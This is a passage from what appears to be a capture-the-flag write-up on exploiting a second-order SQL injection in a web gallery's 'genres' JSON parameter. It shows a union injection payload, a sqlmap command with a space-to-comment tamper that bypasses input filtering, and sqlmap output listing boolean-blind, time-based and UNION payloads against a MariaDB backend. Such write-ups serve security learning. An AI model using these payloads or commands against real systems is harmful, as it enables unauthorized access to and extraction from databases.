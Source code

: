 Although, response of a union injection is interesting. All spaces within the payload are stripped out. This can potentially be circumvented by replacing the spaces with SQL comments (`/**/`).

![union-sqli-render](./images/union-sqli-render.png)

_Union injection payload_

```json
{
    "genres": "food,travel,nature' union select 1 -- -"
}
```

There might be an escape function in place to sanitize the input for genres. However, since this input has an impact on the feed, there is a potential for exploiting second-order SQL injection.

Using `sqlmap`, discovered a second-order SQL injection in there. I successfully exploited the vulnerability using `sqlmap`, which indicates that the backend database is MariaDB.

-   `gallery_genres.req`: The POST request to change the genres → the injection point
-   `galley_feed.req`: The GET request for the user feed
-   `space2comment`: A sqlmap tamper script to replace spaces with comments, bypassing the sanitization process.

```bash
> sqlmap -r gallery_genres.req --level 5 --risk 3 --second-req gallery_feed.req --batch --tamper=space2comment --threads 10

[21:08:39] [INFO] (custom) POST parameter 'JSON genres' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter 'JSON genres' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 300 HTTP(s) requests:
---
Parameter: JSON genres ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"genres":"food,travel,nature') AND 2611=2611 AND ('pGZT'='pGZT"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"genres":"food,travel,nature') AND (SELECT 5190 FROM (SELECT(SLEEP(5)))jJoL) AND ('LKKQ'='LKKQ"}

    Type: UNION query
    Title: MySQL UNION query (NULL) - 7 columns
    Payload: {"genres":"food,travel,nature') UNION ALL SELECT NULL,CONCAT(0x71707a7671,0x6959496e6664714d6c4255494f416975476363525a6d6b7957427a6e7450636b4d536f6b4e68554e,0x7170787a71),NULL,NULL,NULL#"}
---
[21:08:39] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[21:08:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

```
